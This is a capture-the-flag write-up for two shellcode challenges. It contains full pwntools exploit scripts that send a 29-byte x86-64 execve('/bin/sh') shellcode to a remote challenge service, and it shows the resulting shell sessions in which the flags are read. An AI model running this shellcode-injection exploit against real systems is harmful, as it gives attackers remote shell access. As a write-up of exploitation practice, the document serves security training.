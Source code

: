 ## Shellcode 1 & 2 (pwn)

These challenges had us input shellcode which the programs would execute.

The first Shellcode challenge had a input buffer of 64 bytes. This means that the shellcode could not be longer than 64 bytes.

I have previously done some similar challenges and have used https://shell-storm.org/shellcode/index.html before.

The binary given was x86-64. Therefore I had to use shellcode that fit.

By scrolling down to Linux x86-64 on the shell-storm website I found this:
https://shell-storm.org/shellcode/files/shellcode-905.html

This shellcode was only 29 bytes and well within the 64 bytes buffer.

Then I could craft my exploit:
```python
from pwn import *

p = remote("20.240.63.48", 30011)

p.recvuntil(b"Do you like shellcode? I do. Give me your best shellcode (max 64 bytes) and I'll run it!\n")

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

This led me to pop a shell and get the flag:
```shell
$ python3 shellexploit.py
[+] Opening connection to 20.240.63.48 on port 30011: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcode
ynetd
$ cat flag.txt
KCSC{w4ke_up_n3o}
```


Shellcode 2 was really similar, but the buffer was only 32 bytes this time. My shellcode from the previous challenge was 29 bytes, and therefore within the limit. 
The only differences I made was the port number and the string pwntools should wait until, before sending the shellcode.

```python
from pwn import *

p = remote("20.240.63.48", 30012)

p.recvuntil(b"Now write only 32 byte shellcode!\n")

shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(shellcode)

p.interactive()
```

```shell
$ python3 shellexploit.py
[+] Opening connection to 20.240.63.48 on port 30012: Done
[*] Switching to interactive mode
$ ls
flag.txt
shellcode2
ynetd
$ cat flag.txt
KCSC{f0ll0w_t3h_wh1te_rabb1t}
```